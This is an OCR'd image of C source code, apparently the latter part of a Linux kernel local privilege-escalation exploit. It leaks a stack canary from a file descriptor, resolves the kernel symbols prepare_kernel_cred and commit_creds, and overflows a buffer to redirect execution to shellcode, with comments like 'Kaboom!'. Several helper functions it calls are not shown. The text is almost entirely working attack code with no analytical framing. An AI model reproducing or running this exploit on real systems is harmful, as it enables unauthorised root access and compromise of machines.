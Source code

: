``` c
        memset(buf, 'A', sizeof(buf));

        void * pc = buf + MAX +  3 * sizeof(void*);

        *(void **)pc  = (void *) shellCode;

        /* Kaboom! */
        write(fd, buf, sizeof(buf) );
}

int
gather_information(int fd)
{
        int canary, i;

        if (lseek(fd, 32, SEEK_SET) == -1)
                err(2, "lseek");
        read(fd, &canary, sizeof(canary));

        printf("[+] found canary: %08x\n", canary);

        return canary;
}

void
resolve_kernel_symbols(void)
{
        prepare_kernel_cred     = get_ksymbol("prepare_kernel_cred");
        commit_creds            = get_ksymbol("commit_creds");
        proc_file_write         = get_ksymbol("proc_file_write");

        if (!prepare_kernel_cred || !commit_creds)
                errx(1, "couldn't map all kernel symbols");
}

int
main(void)
{
        int fd, canary;

        resolve_kernel_symbols();

        fd = open_file();
        canary = gather_information(fd);

        trigger_vuln(fd, canary);

        payload();
        /* If we're here, we've failed. */
        close(fd);

        errx("[-] exploit failed\n");
}
```
